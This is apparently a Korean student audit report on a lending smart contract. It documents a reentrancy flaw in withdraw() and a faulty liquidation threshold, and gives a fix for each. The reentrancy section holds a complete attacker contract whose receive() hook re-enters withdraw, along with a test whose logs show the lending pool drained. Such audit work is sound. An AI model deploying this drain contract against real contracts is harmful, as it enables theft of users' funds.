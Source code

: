 ## 김남령

## 미구현된 부분: Accured Interest, Healthy

## 1. Reentrancy

### 설명

문제 코드: DreamAcademyLending.sol 내 withdraw() 함수 전체

withdraw 함수에서 예치한 이더리움 담보를 보낼 때 담보에 대한 정보를 업데이트 하지 않은 채로 송금을 먼저 수행하기 때문에 발생한 문제이다.

```java
function withdraw(address _tokenAddress, uint256 _amount) external{
  _update();
  uint256 availableWithdraw =  vaults[msg.sender].borrowUSDC *1e18 / oracle.getPrice(address(0x0)) * LTV / 100;
  VaultInfo memory tempVault = vaults[msg.sender];

  require(tempVault.collateralETH >= _amount, "INSUFFICIENT_AMOUNT");
  require(tempVault.collateralETH - availableWithdraw >= _amount);

  tempVault.collateralETH -= _amount;
  (bool success, ) = payable(msg.sender).call{value: _amount}("");
  require(success, "ERROR");

  vaults[msg.sender] = tempVault;

}
```

withdraw 함수는 tempVault라는 지역변수를 선언해 사용자의 담보 정보를 가져오는데, 이를 업데이트하는 `vaults[msg.sender] = tempVault;` 구문이 송금 이후에 위치해있다. 이는 Checks - Effects - Interaction 패턴에 벗어나며, 외부 함수의 호출로 인한 reentrancy 취약점이 발생할 수 있다.

### 파급력

Critical

-   산정 이유
    -   공격자가 1 wei만 가지고 있더라도 연속적인 공격 수행으로 lending 컨트랙트의 모든 이더리움 담보를 탈취할 수 있다.
-   공격 시나리오

    ```java
    contract Reentrancy {
      DreamOracle dreamOracle;
      DreamAcademyLending lending;
      address owner;
      constructor(DreamAcademyLending _lending){
          lending = _lending;
          owner = msg.sender;
      }

      function attack() external payable {
        require(msg.value >= 100 ether, "msg.value more than 1 ether");
        (bool success, )= address(lending).call{value: msg.value}(abi.encodeWithSelector(lending.deposit.selector, address(0x0), msg.value));
        (bool success2, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), msg.value));
      }

    	function transfer() public payable {
        (bool success,) = msg.sender.call{value: address(this).balance}("");
      }

      receive() external payable {
    	  uint targetBalance = address(lending).balance;
    	  if(targetBalance > 100 ether){
          (bool success3, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
    	  }
      }
    }
    ```

    -   위와 같이 reentrancy를 유발하는 컨트랙트를 작성할 수 있다.
    -   공격자는 임의의 자산을 예치하고, 예치한 자산의 일부를 withdraw를 호출하여 돌려받는다.
    -   receive 함수에 다시 withdraw를 호출하는 구문을 넣어 withdraw로 이더리움을 돌려받는 데에 성공하면 다시한번 withdraw를 호출한다.
    -   Lending 컨트랙트 내에서 아직 vault의 값이 업데이트 되지 않았으므로 모든 조건을 통과하고 call with value를 수행한다.
    -   모든 자금을 탈취하면 attack 함수의 동작이 종료되고, reenterancy 컨트랙트는 lending 컨트랙트의 모든 자산을 갖게 된다.
    -   이렇게 탈취한 자산은 공격자가 가져갈 수 있다.

    ```java
    function testReentrancy() external {
      reentrancy = new Reentrancy(lending);
      vm.deal(user1, 1000 ether);
      supplySmallEtherDepositUser2();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
      vm.startPrank(user1);
        (bool success1,) = address(reentrancy).call{value: 100 ether}(abi.encodeWithSelector(reentrancy.attack.selector));
        (bool success3,) = address(reentrancy).call{value: 0 ether}(abi.encodeWithSelector(reentrancy.transfer.selector));
      vm.stopPrank();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
    }
    ```

    ```java
    [PASS] testReentrancy() (gas: 657090)
    Logs:
      user1 balance 1000
      reenter balance 0
      lending balance 1000
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      user1 balance 2000
      reenter balance 0
      lending balance 0
    ```

### 해결 방안

-   이더리움 송금 구문 이전에 vault의 값을 업데이트해주어야 한다

## 2. False Liquidation Threshold

### 설명

문제 코드: DreamAcademyLending.sol 내 liquidate함수, 111번 줄

-   Liquidation threshold를 계산하는 과정이 잘못되었다. 담보가 아닌 ETH의 가격을 기준으로 청산 기준을 결정하였다.
-   또한 등호를 추가해야 한다.

```java
uint price = vaults[_user].borrowUSDC * (oracle.getPrice(address(0x0))/oracle.getPrice(_tokenAddress));
require(price > oracle.getPrice(address(0x0))*75/100);
```

-   빌린 USDC의 가치를 ETH 기준으로 환산한 값과 현재 ETH 가격을 비교해서 75% 이하인 경우 청산을 시작한다.
-   Liquidation은 빌린 돈의 가치가 “담보”의 75% 아래일 때를 기준으로 계산해야 한다.
-   현재는 담보를 1 ETH로 가정하고 식을 세웠다.

### 파급력

High

-   산정 이유
    -   DEX의 효용성을 매우 떨어뜨리며, 공격의 접근성이 아주 높다.
    -   담보를 1 ETH로 고정해두었기 때문에 부채가 클수록 청산되기 쉽다.


### 해결 방안

-   등호를 추가해야 하며, 1 ETH가 아닌 실제 담보가치가 부채보다 25% 이상 낮을 경우 청산이 시작되도록 고친다.

```java
require(price >= ${Collateral_Amount} * oracle.getPrice(address(0x0)) * 75/100);
```
 
